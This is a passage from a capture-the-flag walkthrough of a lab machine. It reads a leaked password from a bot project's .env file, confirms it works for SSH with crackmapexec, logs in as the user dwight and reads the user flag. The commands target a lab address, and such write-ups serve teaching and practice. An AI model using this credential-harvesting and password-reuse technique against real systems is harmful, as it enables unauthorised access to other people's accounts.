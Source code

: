 I’ll note that dwight and rocketchat are the only users on the box not in the system/service range below 1000.

#### Leak Credentials

In `../hubot` there’s a NodeJS project:

![image-20220605133200037](https://0xdfimages.gitlab.io/img/image-20220605133200037.png)

The `.env` file is immediately interesting, as those files tend to hold secrets for the project:

![image-20220605133232357](https://0xdfimages.gitlab.io/img/image-20220605133232357.png)

There’s a password, “Queenofblad3s!23”.

### SSH

Given the access to files in `/home/dwight`, it makes sense that the bot is running as dwight. It’s worth checking if dwight shared their password across rocketchat and the system. `crackmapexec` shows it works:

```

oxdf@hacky$ crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'
SSH         10.10.11.143    22     10.10.11.143     [*] SSH-2.0-OpenSSH_8.0
SSH         10.10.11.143    22     10.10.11.143     [+] dwight:Queenofblad3s!23 

```
*Note: It’s important to put that password in single quotes and not double quotes, or Bash will interpret `!23` as the command run 23 commands ago in the current sessions history.*

SSH works to get a shell:

```

oxdf@hacky$ sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sun Jun  5 13:34:39 EDT 2022 from 10.10.14.6 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$

```

And `user.txt`:

```

[dwight@paper ~]$ cat user.txt
9e780dce************************

```

## Shell as root
